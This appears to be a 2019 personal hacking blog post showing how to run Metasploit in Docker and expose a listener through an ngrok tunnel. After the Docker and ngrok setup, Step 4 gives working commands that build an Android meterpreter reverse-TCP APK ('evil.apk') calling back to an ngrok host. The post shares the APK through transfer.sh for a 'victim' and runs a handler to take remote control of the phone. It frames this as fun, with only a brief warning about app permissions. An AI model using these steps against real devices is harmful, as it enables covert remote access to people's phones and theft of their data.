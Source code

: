 ```yaml
---
author: "Laluka"
title: "Ngrok your DockerSploit"
slug: "ngrok_your_dockersploit"
date: 2019-12-15
status: "original"
description: "Tired of broken tools? You broke your system frequently by installing random sh*t? So do I! Let's see how to use docker, metasploit, ngrok and aliases in order to simplify your life and keep your system alive while hacking the planet!"
---
```



Hey, you! \
Aren’t you tired of always having broken tools relying on broken software?  \
Pissed off because you just broke your system (againnn...) trying to fix your previously broken tools and now everything’s fucked-up and you want to raise penguins out of the tech world? \

Or even worse, you want a reverse shell but you’re :

- At your grandparents place and they lost the router password so you can’t expose ports
- So broke that you can’t buy nor rent a virtual private server

Well that’s oddly specific but you’re on the exact right place on earth (and on the web)! \o7 \
Today, I’ll teach you how to use docker, metasploit, ngrok and aliases in order to simplify your life while hacking the planet! 


## Step 1 : Install and setup docker

UPDATE : Let's give a big shout out to [@Creased_](https://twitter.com/Creased_) that [tweeted me](https://twitter.com/Creased_/status/1206556812541091840) about the new / current docker install process, the one I initially published was deprecated. Oopsy Daisy.. `:x`

The install procedure is specified in the official doc, but... Gotta go faaaast (and self contained)!

```bash
# If previously installed, clean up 
sudo apt-get remove docker docker-engine docker.io containerd runc

# Update and install
sudo apt-get update
sudo apt-get install -y apt-transport-https ca-certificates curl gnupg-agent software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo apt-key fingerprint 0EBFCD88
sudo add-apt-repository \
   "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
   $(lsb_release -cs) stable" # Hardcode disco if you're on ubuntu 19.XX
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io
sudo docker run hello-world

# OR

curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
```

You can always _start_, _stop_, or _enable_ the docker services using systemctl. 
Just check it's working as intended using the _status_ command, and eventually _enable_ it at reboot. 

```bash
sudo systemctl start docker
sudo systemctl status docker
sudo systemctl enable docker
```

If you’re not familiar AT ALL with docker, reading Richard’s introduction might be a good starting point : https://teuze.github.io/posts/docker/


## Step 2 : Install and setup ngrok

> Ngrok is a tool that can allow someone to expose ports to the internet without struggle. 

Ngrok folks have servers and custom DNS running and exposing IP addresses and ports for us. When the developer decides to expose a port, a connection is established with them and one of their subdomain:port is redirected to the open connection, thus exposing the local port.

<img class="img_med" src="/hacking/docker_sploit/ngrok.png" alt="ngrok">

Create an account, sign-in and visit https://dashboard.ngrok.com/get-started to get your auth token. 
Then install and configure your local instance with : 

```bash
sudo snap install ngrok
ngrok authtoken <REDACTED_TOKEN>
```

Now let’s verify everything works by creating a tunnel, checking logs in the webUI and opening a tcp tunnel. 

- Top right : 
 - Ngrok status & logs
 - google-chrome http://localhost:4040
- Top left : 
 - Ngrok tunnel
 - ngrok tcp 8888
- Bottom right : 
 - netstat, listen, verbose (really useful to know when we receive a connection), port 8888 (default is tcp)
 - nc -lvp 8888
- Bottom left : 
 - netcat, connect to the right ngrok subdomain and port 
 - nc 0.tcp.ngrok.io 17064

<img class="img_big" src="/hacking/docker_sploit/step_2_working_tunnel.png" alt="step_2_working_tunnel">


## Step 3 : Define your aliases

Add the following aliases in _~/.zshrc_, or _~/.bashrc_ if you’re more vanilla, then source your config and you’re good to go! 

```bash
cat > ~/.zshrc << EOF
alias metasploit8888='sudo docker run --rm -it -v /tmp/msf:/tmp/msf -p 8888:8888 -e MSF_UID=0 -e MSF_GID=0 metasploitframework/metasploit-framework:latest /bin/bash'
alias wipe_docker='sudo docker rm $(sudo docker ps -a -q) && docker rmi $(sudo docker images -q)'

source ~/.zshrc
EOF
```

Let’s spend some time explaining metasploit8888 alias. 

- `sudo` # we need to be root to interact with the docker socket
- `docker` # Interact with the socket using docker (captain obvious <3)
- `run` # start a process in out container
- `--rm` # remove the container on exit (cleaner)
- `-it` # interactive allocate a pseudo tty
- `-v /tmp/msf:/tmp/msf` # Mount /tmp/msf from our host in the docker, useful - `to extract data
- `-p 8888:8888` # expose out docker port on the host itself
- `-e MSF_UID=0 -e MSF_GID=0` # metasploit specific environment variables (root user and group)
- `metasploitframework/metasploit-framework:latest`  # the image we’ll use, from the Docker Hub
- `/bin/bash` # Override the entry point (msfconsole) with bash, so we can also use msfvenom

Image provider here : https://hub.docker.com/r/metasploitframework/metasploit-framework/


## Step 4 : Hack the planet!

Still here? Nice! Here’s our roadmap : 

- Generate a meterpreter payload (apk)
- Expose the dockerToHost (docker -p) and HostToWorld (ngrok)
- Get the meterpreter handler ready
- Execute the payload
- Profit???

### Step 4.1 : Create the tunnel and generate our payload

In order to create the right payload, we need to know which port we’ll use, thus we start the tunnel first. 

```bash
ngrok tcp 8888
```

Then we list the payloads and use the one of our choice. It should depend on the situation, but we’re just having fun here so let’s go for something efficient and reliable : meterpreter (shell++), reverse (connects back to us), tcp (more reliable than udp but slower for big queries)

```bash
./msfvenom --list payload | grep android
./msfvenom -p android/meterpreter_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=8888 > /tmp/msf/evil.apk
```

And then we make our payload available to our victim, thanks to transfer.sh ... :]

```bash
curl --upload-file /tmp/msf/evil.apk https://transfer.sh/evil.apk
```

<img class="img_big" src="/hacking/docker_sploit/step_4_1_gen_payload.png" alt="step_4_1_gen_payload">



### Step 4.2 : Start the multi/handler

At any time in msfconsole, you can use the following commands to know what you’re dealing with : 

```bash
help
info
options
show + tab # exhaustive list of available assets
```

Let’s grab our container ip and configure the multi/handler that will receive our reverse meterpreter. 

```bash
./msfconsole -q
use exploit/multi/handler
set payload android/meterpreter_reverse_tcp
ip a | grep eth # Get the container local ip for LHOST
set LHOST 172.17.0.2
set LPORT 8888
exploit
```
<img class="img_big" src="/hacking/docker_sploit/step_4_2_multi_handler.png" alt="step_4_2_multi_handler">


### Step 4.3 : Execute the payload, enjoy the meterpreter

Our target will somehow install the apk on his / her phone, and then... KABOOM! \

<img class="img_big" src="/hacking/docker_sploit/step_4_2_multi_handler.png" alt="step_4_2_multi_handler">

The app is installed and started, we receive our reverse meterpreter and can now have fun with it! \
Small demo here, getting system info, sending a message to myself and popping a shell :)

<img class="img_big" src="/hacking/docker_sploit/step_4_3_profit.png" alt="step_4_3_profit">

Pay attention to all the permissions required, if you see that, some day, from any app : flee you fool!

<img class="img_big" src="/hacking/docker_sploit/phone.png" alt="phone">

## Step 5 : That’s all folks!

From now on, when you’ll have a new tool to try or dirty tricks to test, browse the world wild (no typo here) web and find dockers! That being said, please be extra careful with the parameters you use with docker, it’s still possible to wreck your system in many ways! 

I initially wanted to enumerate a few common docker pitfalls, but there are just so many of them that I’ll just give pointers to more complete resources : 

- [Root via docker spawning](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/)
- [Vulnerability in runC](https://snyk.io/blog/a-serious-security-flaw-in-runc-can-result-in-root-privilege-escalation-in-docker-and-kubernetes/)
- [Docker group abuse](https://fosterelli.co/privilege-escalation-via-docker)
- [Good practices](https://www.secjuice.com/how-to-harden-docker-containers/)
- [Hardening and optimisations](https://pythonspeed.com/docker/)

I hope that you liked this workflow and learned something, and hopefully now you’ll spend less time fixing your system and more time hacking the world! 
